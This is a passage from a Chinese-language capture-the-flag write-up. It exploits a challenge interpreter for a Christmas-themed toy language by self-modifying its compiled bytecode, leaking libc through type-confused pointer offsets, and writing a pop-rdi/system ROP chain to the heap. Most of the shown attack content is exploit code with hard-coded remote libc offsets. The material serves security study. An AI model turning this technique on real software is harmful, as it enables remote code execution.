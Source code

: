 这样运行一次以后，scom文件就变为了刚刚的`overflow.scom`文件，

#### 两次运行不一致

这样我们还剩下一个问题，我们现在利用在`-r -d`位置，但是前面还有一次`-r`的运行，

因此要让两次`-r`运行不一致，这里同样适用了自修改的技巧，

首先在文件最开头设置变量`check = 1; a=2`, 于是我们的到`push 0; pop check; push 1; pop a`, 其实这个pop后跟的是对应`lambda->number`中的索引值，

于是还是自修改，我们只需要修改前面的`magic`和opcode第二位即可，

![image.png](https://s2.loli.net/2022/01/04/binYVB4GvcRsPLI.png)

这样修改为`push 1; pop check;`于是变成了check=2, 配合一个want构造的if结构即可。

```
gift check is 1;
gift a is 2;

this family wants gift check
    if the gift equal to 1:
        reindeer Dancer delivering gift filea oflag mode brings back gift fda;
        #fda = open(filea, oflag, mode)#
        gift size is 16;
        reindeer Rudolph delivering gift fda headera size;
        # write(fda, headera, size)#
        
        reindeer Rudolph delivering gift stdout aaa size;
    if the gift equal to 2:
        reindeer Rudolph delivering gift stdout bbb size;
ok, they should already have a gift;
```

![image.png](https://s2.loli.net/2022/01/04/zCPGpy7EUcYIdO8.png)

### rop链

最后的rop构造其实我还是用的类型混淆的指针偏移，然后从sleep中得到了libc_base， system， ret地址，然后都保存为一个gift变量，然后通过指针移动配合`memcpy`函数，全写到堆块中，

```
        # set rop#
        # remote #
        gift libc is sleep  - 972880;
        gift system is libc + 346848;
        gift poprdi is libc + 190149;
        gift ret is libc + 190150;

        gift ptr is ptr + 3072; # pop rdi#
        gift rop is rop + 8;
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr - 1120; # shell#
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr + 1152; # ret #
        reindeer Vixen delivering gift rop ptr size;
        gift rop is rop + 8;
        gift ptr is ptr - 64; # system #
        reindeer Vixen delivering gift rop ptr size;
```
